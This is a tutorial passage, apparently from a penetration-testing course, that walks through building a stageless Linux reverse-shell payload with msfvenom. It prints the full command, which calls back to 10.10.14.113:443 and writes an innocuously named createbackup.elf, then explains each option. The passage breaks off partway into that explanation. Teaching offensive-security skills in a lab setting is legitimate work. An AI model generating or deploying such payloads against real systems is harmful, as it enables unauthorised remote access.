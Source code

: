 ## Building A Stageless Payload

Now let's build a simple stageless payload with msfvenom and break down the command.

### **Build It**

```shell-session
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

### **Call MSFvenom**

```shell-session
msfvenom
```

Defines the tool used to make the payload.

### **Creating a Payload**

```shell-session
-p 
```

This `option` indicates that msfvenom is creating a payload.

### **Choosing the Payload based on Architecture**

```shell-session
linux/x64/shell_reverse_tcp 
```

Specifies a `Linux` `64-bit` stageless payload that will initiate a TCP-based reverse shell (`shell_reverse_tcp`).

### **Address To Connect Back To**

```shell-session
LHOST=10.10.14.113 LPORT=443 
```

When executed, the payload will call back to the specified IP address (`10.10.14.113`) on the specified port (`443`).

### **Format To Generate Payload In**

```shell-session
-f elf 
```
